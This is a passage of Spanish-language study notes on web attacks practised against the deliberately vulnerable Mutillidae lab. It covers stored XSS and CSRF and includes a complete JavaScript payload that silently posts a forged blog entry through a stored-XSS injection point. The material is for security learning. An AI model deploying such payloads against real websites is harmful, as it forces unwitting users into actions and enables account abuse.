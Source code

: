 ***Nota: Tiene que ir encodeado como url***

![[Pasted image 20240927202936.png]]

***Cross Site Scripting Stored:*** Este tipo de xss se da cuando puedes ejecutar un codigo y que este sea persistente, o sea, que no se elimine el payload cuando recargamos, no como en el anterior que es catalogado como ***Cross Site Scripting Reflected***

Esto desde nuestro mutillidae podemos ejecutarlo desde la parte de XSS Stored en la sección donde podemos subir un blog, lo que haremos sera en este input subir nuestro codigo decodeado mediante burpsuite para que cada que entre nos pida esta informacion.

# 11. Cross Site Request Forgery (CSRF)
Consiste en forzar a un usuario legitimo de una web a realizar una acción sin que sepa que lo esta realizando, esto lo podemos hacer mediante payloads que ejecuten JavaScript, en la pagina de hints and videos de esta sección nos dan varios payloads.
Este seria el que utilizarempos en cuestion:

```html
<script>
	var lXMLHTTP;
	try{
		var lBlogEntry = encodeURI("Entrada de blog anadida mediante CSRF");

		var lData = "csrf-token=&blog_entry="+lBlogEntry+"&add-to-your-blog-php-submit-button=Save+Blog+Entry";
		var lAction = "./index.php?page=add-to-your-blog.php";
		var lMethod = "POST";

		try {
			lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
		}catch(e){
			try {
				lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
			}catch(e){
				try{
					lXMLHTTP = new XMLHttpRequest();
				}catch(e){
					alert(e.message);
				}
			}
		}

		lXMLHTTP.onreadystatechange = function(){
			if(lXMLHTTP.readyState == 4){
				alert("CSRF Complete");
			}
		};

		lXMLHTTP.open(lMethod, lAction, true);
		lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		lXMLHTTP.send(lData);
	}catch(e){
		alert(e.message);
	}
</script>
```
